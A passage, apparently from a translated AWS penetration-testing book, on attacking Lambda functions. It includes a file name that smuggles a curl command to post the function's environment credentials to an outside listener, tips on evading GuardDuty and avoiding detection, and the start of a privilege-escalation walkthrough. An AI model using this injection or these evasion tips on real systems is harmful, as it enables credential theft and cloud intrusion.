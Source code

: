 一切都准备好了。我们需要做的就是确保我们的 NetCat 侦听器已在外部服务器上启动，然后我们需要将此文件上载到`bucket-for-lambda-pentesting`S3 bucket，然后等待 Lambda 函数被调用，最后等待恶意命令执行。我们可以使用 S3`copy`AWS CLI 命令将本地恶意文件复制到远程 S3 bucket 进行上传：

```
aws s3 cp ./'hello;curl -X POST -d "`env`" 1.1.1.1;.zip' s3://bucket-for-lambda-pentesting --profile LambdaReadOnlyTester
```

它看起来有点混乱，因为我们的恶意文件名，但它所做的只是使用 S3`copy`命令作为`LambdaReadOnlyTester`AWS CLI 配置文件，将我们的本地恶意文件复制到`bucket-for-lambda-pentesting`S3 bucket。执行此命令后，我们只需等待并观察我们的 NetCat 侦听器，希望获得一些凭据！几秒钟后，我们将看到以下内容：

![](Images/972de3e2-9dfb-48ed-8a9d-75616e094317.png)

来自 Lambda 服务器的所有环境变量都发布到我们的 NetCat 侦听器

我们做到了！我们刚刚通过一种有时称为事件注入的方法，在运行 Lambda 函数的服务器上成功地实现了代码执行，然后我们成功地将附加到该 Lambda 函数的角色的凭据导出到外部服务器。现在，您可以将这些凭据扔到 AWS CLI 中，继续前进并征服！

奖励：在撰写本文时，GuardDuty 的`UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration`查找类型（[https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11) 不适用于从 Lambda 服务器中过滤出来的凭据！

最后一点需要注意的是，我们使用了一种事件注入方法来利用这个 Lambda 函数，但是还有很多其他类型的方法。您可以通过多种方法触发 Lambda 函数调用，例如前面的 DynamoDB 示例，或者可能通过 cloudwatchevents 规则触发 Lambda 函数调用。您只需要了解如何将自己的输入输入到函数中，以控制执行。实现这一点的最简单、最快捷的方法是使用自定义测试事件（如果您拥有`"lambda:InvokeFunction"`权限），因为您可以在事件中指定所需的确切负载。

在测试 Lambda 函数（具有读访问权限）时，需要记住的其他事项包括：

*   检查与每个功能相关联的标签，以获取敏感信息。这是极不可能的，但并非前所未闻。
*   正如我们前面讨论的，考虑将整个函数复制到您自己的 AWS 帐户进行测试，这样您就不需要在目标环境中产生噪声。
*   如果您有 CloudWatch 日志访问权限，请查看每个 Lambda 函数的执行日志，以查看是否打印了任何敏感信息（存储在`"/aws/lambda/<function name>"`日志组中）。
*   通过点击`"Actions"`下拉菜单，点击`"Export function"`并选择`"Download deployment package"`，您可以从 AWS web 控制台下载整个 Lambda 功能的`.zip`文件。然后，转移到您自己的帐户就很简单了。
*   尝试制定有效负载，以便它们在不中断函数执行的情况下执行您想要的操作。出现错误的 Lambda 函数执行可能会引起一些不必要的注意！
*   在编写有效负载时，要小心函数超时。默认情况下，函数会在三秒后超时，因此在这种情况下，您需要一些快速、简单的过滤。

# 通过读写访问攻击 Lambda 函数

既然我们已经讨论了攻击 Lambda 函数，而您只有对 Lambda 的读访问权限，那么我们将继续讨论读写访问。在这个场景中，我们假设你作为攻击者拥有`"lambda:*"`权限，这基本上意味着你可以读写任何东西，包括编辑现有函数、创建自己的函数、删除函数等等。这打开了一个全新的攻击面，它是许多不同攻击的主要来源，特别是权限提升、数据过滤和持久性。

在本节中，我们不会设置一个新的易受攻击的函数，而是使用之前为几个演示设置的函数。

# 特权升级

根据您遇到的设置，通过 Lambda 函数升级权限相对容易。我们将研究两种不同的场景：一种是您拥有`"lambda:*"`权限和`"iam:PassRole"`权限，另一种是仅拥有`"lambda:*"`权限。

首先，我们假设我们除了拥有完整的 Lambda 访问权限外，还拥有`"iam:PassRole"`权限。我们还假设可以列出 IAM 角色，但仅此而已（`iam:ListRoles`。在这种情况下，我们的目标甚至不一定需要积极使用 Lambda 来提升我们的特权。由于我们具有 IAM`ListRoles`权限，因此可以运行以下 AWS CLI 命令查看帐户中存在哪些 IAM 角色（请确保指定您正在使用的正确配置文件）：

```
aws iam list-roles --profile LambdaReadWriteUser
```
